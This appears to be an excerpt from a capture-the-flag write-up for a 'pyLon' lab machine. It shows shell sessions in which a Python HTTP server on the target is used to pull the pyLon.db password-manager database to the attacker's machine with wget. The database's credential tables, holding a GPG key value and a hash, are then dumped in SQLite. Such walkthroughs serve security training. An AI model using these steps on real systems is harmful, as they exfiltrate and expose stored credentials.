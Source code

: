 <h4 align="center">hosts</h4>

```bash
lone@pylon:~/pylon$ getent hosts
127.0.0.1       localhost
127.0.1.1       pylon
127.0.0.1       ip6-localhost ip6-loopback
```

<h4 align="center">HTTP server</h4>

```bash
lone@pylon:~/pylon$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<h4 align="center">pyLon.db</h4>

```bash
:~/pyLon# wget http://xx.xxx.xx.xx:8000/pyLon.db
...
pyLon.db                              100%[======================================================================>]  12.00K  --.-KB/s    in 0s      
```

<h4 align="center">HTTP server</h4>

```bash
lone@pylon:~/pylon$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xx.xxx - - [07/Sep/2025 xx:xx:xx] "GET /pyLon.db HTTP/1.1" 200 -
```

<h4 align="center">SQLite</h4>

```bash
:~/pyLon# file pyLon.db
pyLon.db: SQLite 3.x database, last written using SQLite version 3022000
```

```bash
:~/pyLon# sqlite3 pyLon.db
SQLite version 3.31.1 2020-01-27 xx:xx:xx
Enter ".help" for usage hints.
sqlite>
```

```bash
sqlite> .tables
pwCheck  pwMan
```

```bash
sqlite> SELECT * FROM pwMan;
pylon.thm_gpg_key|lone_gpg_key|40703************fc97947981e88a1
```

```bash
sqlite> SELECT * FROM pwCheck;
fc37a9f7a6115a98d549b52a42c8e3a9************8b4fbd787be41c12062f1505a23f07b850e578d8932769f232c8b4e7f2148762025a47952440a58ce3db
```
